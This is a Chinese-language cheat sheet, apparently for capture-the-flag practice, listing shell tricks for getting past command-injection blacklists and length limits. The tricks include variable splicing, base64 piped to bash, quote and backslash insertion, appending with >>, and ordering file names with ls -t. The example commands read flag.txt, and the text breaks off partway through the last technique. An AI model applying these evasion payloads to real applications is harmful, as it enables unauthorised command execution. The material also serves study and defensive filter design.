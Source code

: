 ##### 拼接

使用shell变量拼接被黑名单限制的关键词

    a=c;b=at;c=fl;d=ag;e=.txt;$a$b $c$d$e;
    
##### base64

使用反引号包含base64解码后的命令

    `echo "Y2F0IGZsYWcudHh0Cg==" | base64 -d`
    
将base64解码后的命令通过管道符传递给bash

    echo "Y2F0IGZsYWcudHh0Cg==" | base64 -d | bash
    
##### 单引号，双引号

    c""at fl''ag.tx""t
    
##### 反斜杠

    c\at fl\a\g.tx\t
    
##### $1

    ca$1t fl$1ag.t$1xt
    
#### 长度绕过

##### 使用>>绕过长度限制

使用>>每次添加一部分命令到文件中

    echo -n "cmd1" > r;
    echo -n "cmd2" >> r;
    echo -n "cmd3" >> r;
    echo "cmd4" >> r;
    
然后使用cat r | bash执行命令

##### 使用换行执行和ls -t绕过长度限制

linux中，文件中的命令如果需要换行书写，需要在前一行末尾增加\，如文件a中有

    ca\
    t flag.t\
    xt
    
使用sh a即可执行命令cat flag.txt

ls -t可根据时间创建顺序逆序输出文件名

按照这个思路，可以使用

    > "ag"
    > "fl\\"
    > "t \\"
    > "ca\\"
    